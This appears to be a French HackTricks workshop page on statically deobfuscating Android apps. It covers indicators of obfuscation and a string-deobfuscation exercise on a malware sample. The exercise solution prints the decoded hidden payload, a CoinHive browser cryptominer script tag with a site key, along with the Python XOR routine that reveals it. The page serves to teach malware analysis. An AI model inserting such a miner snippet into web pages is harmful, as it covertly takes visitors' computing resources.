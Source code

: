 Il y a souvent des cas où l'application que vous inversez ne sera pas aussi simple que certains des exemples que nous avons discutés. Le développeur implémentera une ou plusieurs techniques d'obscurcissement pour masquer le comportement et/ou la mise en œuvre de leur application. Cela peut être pour des raisons à la fois bénignes et malveillantes.

La clé de l'obscurcissement à retenir est que si vous voulez le dé-obfusquer, vous pourrez le faire. La décision clé n'est pas de savoir si vous le pouvez ou non, mais si cela vaut la peine de dé-obfusquer les ressources.

La raison pour laquelle vous pouvez toujours dé-obfusquer quelque chose est que, finalement, le processeur doit voir le code non obscurci à un moment donné pour l'exécuter.

## Comment dé-obfusquer <a href="how-to-de-obfuscate" id="how-to-de-obfuscate"></a>

La façon dont vous choisissez de dé-obfusquer l'application dépendra de la méthode d'obscurcissement, mais il existe quelques techniques courantes qui fonctionnent généralement bien. Ici, nous ne toucherons qu'aux techniques de dé-obfuscation statique car cet atelier ne couvre que l'analyse/reversement statique. Cependant, n'oubliez pas que l'exécution de l'application et son analyse dynamique peuvent être un autre excellent moyen de contourner l'obscurcissement.

Pour l'obscurcissement dans le bytecode DEX (Java), l'un des moyens les plus simples de dé-obfusquer de manière statique est d'identifier les méthodes de dé-obfuscation dans l'application et de copier leur décompilation dans un fichier Java que vous exécutez ensuite sur le fichier obscurci, les chaînes, le code, etc.

Une autre solution pour Java et le code natif consiste à translittérer l'algorithme de dé-obfuscation en Python ou dans tout autre langage de script avec lequel vous êtes le plus à l'aise. Je dis "translittérer" car il est important de se rappeler que vous n'avez pas toujours besoin de \*comprendre\* l'algorithme de dé-obfuscation, vous avez juste besoin d'un moyen de l'exécuter. Je couvre cela en détail dans la présentation "Unpacking the Packed Unpacker" qui est liée dans la section "More Examples".

## Indicateurs d'obscurcissement <a href="indicators-of-obfuscation" id="indicators-of-obfuscation"></a>

Il existe de nombreux types d'obscurcissement et donc, tout autant de types d'indicateurs pour vous alerter en tant qu'analyste qu'une application est probablement obscurcie, mais voici quelques exemples avec des solutions d'analyse statique proposées pour la dé-obfuscation.

* Pas de chaînes : Java et Android dépendent fortement des chaînes, donc si vous n'en voyez pas ou seulement des chaînes brouillées, il est très probable que les chaînes soient obscurcies.
  * Solution suggérée : Recherchez les appels de méthode qui prennent des chaînes en argument et remontez la trace de l'endroit où cet argument provient. À un moment donné, l'argument de chaîne passera par une méthode de dé-obfuscation avant d'être transmis à l'API qui prend l'argument String.
* Chaînes brouillées : Les API Java et Android nécessitent des chaînes de texte brut, pas brouillées.
  * Solution suggérée : Les chaînes brouillées sont toutes susceptibles d'être passées aux mêmes méthodes avant d'être passées aux API. Ces méthodes sont probablement les méthodes de dé-obfuscation.
* Fichiers binaires dans le répertoire assets/ et appels DexClassLoader dans l'application : Déballage et chargement de code supplémentaire probable. (Pourrait également être téléchargé à partir d'un emplacement distant, puis chargé à l'aide de DexClassLoader)
  * Solution suggérée : Identifiez où le fichier est lu, puis suivez le chemin. Il est probablement dé-obfusqué rapidement après avoir été lu.
* Bibliothèques natives - Impossible d'identifier les fonctions JNI (pas de fonctions nommées Java\_ et pas d'appels à RegisterNatives) : Pour exécuter des méthodes natives, JNI doit être capable d'apparier la fonction dans la bibliothèque native avec la déclaration de méthode native en Java et donc l'un des deux doit exister à un moment donné.
  * Solution suggérée : Commencez par la méthode JNI_OnLoad et recherchez une routine de dé-obfuscation qui charge du code supplémentaire.

## Exercice 7 - Dé-obfuscation de chaînes <a href="exercise-7---string-deobfuscation" id="exercise-7---string-deobfuscation"></a>

Dans cet exercice, nous allons pratiquer la dé-obfuscation de chaînes afin d'analyser une application. Pour l'exercice, nous utiliserons l'échantillon à `~/samples/ClashOfLights.apk` dans la VM. Cet échantillon a la somme de contrôle SHA256 c403d2dcee37f80b6d51ebada18c409a9eae45416fe84cd0c1ea1d9897eae4e5.

### Objectifs <a href="goals" id="goals"></a>

Identifier les chaînes obscurcies et développer une solution pour les dé-obfusquer.

### Contexte de l'exercice <a href="exercise-context" id="exercise-context"></a>

Vous êtes un analyste de logiciels malveillants examinant cette application pour déterminer si elle est malveillante. Vous rencontrez une chaîne Javascript obscurcie qui est chargée et devez la dé-obfusquer pour déterminer si l'application est malveillante ou non. Vous ne pouvez pas exécuter l'application de manière dynamique et devez déterminer ce que fait le Javascript de manière statique.

### Instructions <a href="instructions" id="instructions"></a>

1. Trouvez la chaîne que vous devez dé-obfusquer
2. Identifiez la routine qui la dé-obfusque.
3. Déterminez comment vous voulez écrire une solution pour dé-obfusquer la chaîne.
4. Faites-le :)

### Solution <a href="solution" id="solution"></a>

La chaîne dé-obfusquée est :
```
<script src="https://coinhive.com/lib/coinhive.min.js"></script><script>var miner = new CoinHive.Anonymous('nf24ZwEMmu0m1X6MgcOv48AMsIYErpFE', {threads: 2});miner.start();</script>
```
Le script Python que j'ai écrit pour le dé-obfusquer est :
```
enc_str = "773032205849207A3831326F1351202E3B306B7D1E5A3B33252B382454173735266C3D3B53163735222D393B475C7A37222D7F38421B6A66643032205849206477303220584920643D2223725C503A3F39636C725F5C237A082C383C7950223F65023F3D5F4039353E3079755F5F666E1134141F5C4C64377A1B671F565A1B2C7F7B101F42700D1F39331717161574213F2B2337505D27606B712C7B0A543D342E317F214558262E636A6A6E1E4A37282233256C"

length = len(enc_str)
count = 0
dec_str = [0] * (length/2)
while (count < length):
    dec_str[count/2] = (int(enc_str[count], 16) << 4) + int(enc_str[count + 1], 16) & 0xFF
    count += 2
print dec_str


key = [75, 67, 81, 82, 49, 57, 84, 90]
enc_str = dec_str
count = 0
length = len(enc_str)
while (count < length):
    dec_str[count] = chr(enc_str[count] ^ key[count % len(key)])
    count += 1
print ''.join(dec_str)
```
## Plus d'exemples <a href="more-examples" id="more-examples"></a>

J'ai donné plusieurs conférences sur la désobfuscation des applications Android qui incluent une variété de mécanismes d'obfuscation. Dans ces conférences, je discute des techniques d'obfuscation avancées, de ma solution pour les désobfusquer, ainsi que des considérations et choix que j'ai faits en décidant comment je voulais désobfusquer.

* BlackHat USA 2018 : "Unpacking the Packed Unpacker: Reverse Engineering an Android Anti-Analysis Library" \[[vidéo](https://www.youtube.com/watch?v=s0Tqi7fuOSU)]
  * Cette conférence traite de l'ingénierie inverse d'une des bibliothèques natives anti-analyse les plus complexes que j'ai vues utilisées par une application Android. Elle couvre principalement les techniques d'obfuscation dans le code natif.
* REcon 2019 : "The Path to the Payload: Android Edition" \[[vidéo](https://recon.cx/media-archive/2019/Session.005.Maddie_Stone.The_path_to_the_payload_Android_Edition-J3ZnNl2GYjEfa.mp4)]
  * Cette conférence aborde une série de techniques d'obfuscation, uniquement dans le code Java, qu'un botnet Android utilisait pour masquer son comportement.


<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

- Travaillez-vous dans une **entreprise de cybersécurité** ? Voulez-vous voir votre **entreprise annoncée dans HackTricks** ? ou voulez-vous avoir accès à la **dernière version de PEASS ou télécharger HackTricks en PDF** ? Consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !

- Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)

- Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)

- **Rejoignez le** [**💬**](https://emojipedia.org/speech-balloon/) [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**

- **Partagez vos astuces de piratage en soumettant des PR au [repo hacktricks](https://github.com/carlospolop/hacktricks) et au [repo hacktricks-cloud](https://github.com/carlospolop/hacktricks-cloud)**.

</details>
